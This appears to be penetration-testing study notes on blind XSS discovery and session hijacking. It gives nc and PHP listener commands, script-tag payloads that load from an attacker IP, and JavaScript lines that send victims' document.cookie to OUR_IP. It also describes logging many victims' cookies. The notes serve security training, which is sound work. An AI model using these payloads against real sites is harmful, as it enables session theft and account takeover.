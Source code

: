 - Various payloads start with an injection like `'>`, which may or may not work depending on how our input is handled in the backend.
- If we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload

Before sending payloads, we can start a listener using `nc` or `php`:
```bash
nc -lnvp 80
```
```shell
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:
```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
etc... etc...
```

Once we submit the form, we wait a few seconds, and if nothing calls our server, then we can proceed to the next payload.

Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name
## Session Hijacking Attack
```
javascript:eval('var a=document.createElement(\'fullname\');a.src=\'http://10.10.15.243/\';document.body.appendChild(a)')
```

Requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;

new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM.

Now, we can change the URL in the XSS payload we found earlier to use `script.js`.
```html
<script src=http://OUR_IP/script.js></script>
```

With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value.

If there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file.
- In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.
